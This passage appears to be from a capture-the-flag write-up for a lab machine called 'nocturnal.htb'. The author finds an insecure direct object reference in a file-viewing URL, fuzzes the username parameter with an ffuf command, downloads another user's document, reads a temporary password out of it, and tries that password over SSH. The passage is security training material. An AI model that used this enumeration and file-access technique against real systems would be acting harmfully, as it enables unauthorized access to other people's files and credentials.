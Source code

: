 nice, the file uploaded, but what's really interesting is the link to view the file.

`view.php?username=ax0ryn&file=test.pdf`

the inclusion of the username is concerning and begs the question, can i find other user accounts files?

i'll test for this 'indirect object reference' (idor) vulnerability by capturing the request in caido and changing the username from ax0ryn to admin.

it replies with "available files for download" and doesn't include my uploaded file, i think its worth the time to fuzz the username parameter to gather another potential username, and even more importantly, another users file. i can do this using ffuf.

`ffuf -w /usr/share/seclists/usernames/xato-net-10-million-usernames.txt -u 'http://nocturnal.htb/view.php?username=fuzz&file=file.pdf' -fs 2985 -b "phpsessid=oo439c3sn20ea6o5ve72qbp3sn"`

```
admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 92ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 91ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 95ms]
```

nice! admin, amanda, and tobias are valid users. i already checked to see if admin had any files, what about amanda? i'll resend the request in caido.

`view.php?username=amanda&file=test.pdf`

excellent! i can grab that file by navigating to http://nocturnal.htb/view.php?username=amanda&file=privacy.odt

this is an odt file, i can use odt2txt to view the contents of the file.

odt2txt privacy.odt
```
Dear Amanda,Nocturnal has set the following temporary password for you:
arHkG7HAI68X8s1J. This password has been set for all our
services, so it is essential that you change it on your first
login to ensure the security of your account and our
infrastructure.The file has been created and provided by Nocturnal's IT team.
If you have any questions or need additional assistance during
the password change process, please do not hesitate to contact
us.Remember that maintaining the security of your credentials is
paramount to protecting your information and that of the
company. We appreciate your prompt attention to this matter.

Yours sincerely, Nocturnal's IT team
```

i see the password there. i tried this password in ssh but no joy.

```
ssh amanda@nocturnal.htb
amanda@nocturnal.htb's password: 
permission denied, please try again.
```

i'll try this password to log in as amanda.
